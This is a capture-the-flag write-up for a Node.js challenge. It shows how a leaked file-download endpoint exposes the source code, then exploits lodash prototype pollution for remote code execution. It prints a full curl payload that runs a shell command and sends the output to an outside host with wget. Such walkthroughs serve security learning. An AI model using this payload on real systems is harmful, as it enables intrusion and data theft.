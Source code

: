 # Elz3ama-CTF

By inspecting the HTTP responses, we figure out that the application is written in NodeJs.


![Application](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4f786f0c3099ae9aad02921d1aab97b9.png)

Next By inspecting the comments we see the below comments:

<!-- Ziko: I could not push the code to the CI/CD pipeline, so NexusIQ was not executed on this project. Would you please check it for me ? the endpoint for getting files is: /DownloadFile/${file}

We can then figure out that there is a download function that takes the file name and download the file. knowing that the application is written in NodeJS, we can assume that the file 'package.json'.

by going to the following link:

> http://localhost:3000/DownloadFile/package.json

We can simply download the 'package.json' file and then read all of the dependencies.

On the line number: 7. we can spot that the main file used in the application is called 'index.js'

By making use of the same 'DownloadFile' link to download the source code of the application:

> http://localhost:3000/DownloadFile/index.js

![sourcecode](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4982e1c2fc989d1e2ed6017190ff8c9d.png)


By searching around you can find that the application is making use of a vulnerable version of 'lodash' library which is vulnerable to prototype pollution and leads to RCE due to the usage of 'template'.

> https://github.com/lodash/lodash/pull/4518

The full payload that can leads to RCE
> curl -D- localhost:3000/pipeline -H 'Content-Type: application/json' -d $'{"constructor": {"prototype": {"sourceURL": "\u2028\u2029global.process.mainModule.require(\'child_process\').exec(\'wget http://sherif.ninja:8080/$(ls)\')"}}}'

On the other hand on the webserver runnning by the player they can receive the output of the command 'ls'
on the http logs

![flag-file](http://snappyimages.nextwavesrl.netdna-cdn.com/img/98d108a92b9e49d3934f80a186abe1d4.png)

by making use of the 'DownloadFile' function, we can simply read the flag by the following link:

http://localhost:3000/DownloadFile/cfl4g_n7w_z3ama_file_downloaded
